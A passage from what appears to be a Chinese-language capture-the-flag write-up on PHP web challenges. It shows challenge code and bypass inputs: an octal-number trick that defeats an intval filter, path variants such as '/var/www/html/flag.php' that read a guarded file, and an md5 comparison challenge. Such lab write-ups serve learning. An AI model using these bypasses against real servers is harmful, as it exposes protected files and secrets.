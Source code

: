 ```php
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
} 
```

又增加过滤了`.`

构造`空格+八进制`

```
?num=  010574
```

也可以

```
?num=+010574
?num=%2b010574
```



## web96~绝对路径相对路径

```php
<?php

highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

可以看到不能直接等于`flag.php`,

但是我们可以构造路劲让其显示

```php
?u=/var/www/html/flag.php
?u=./flag.php
```

## web97~md5数组绕过

```php
<?php

include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>

```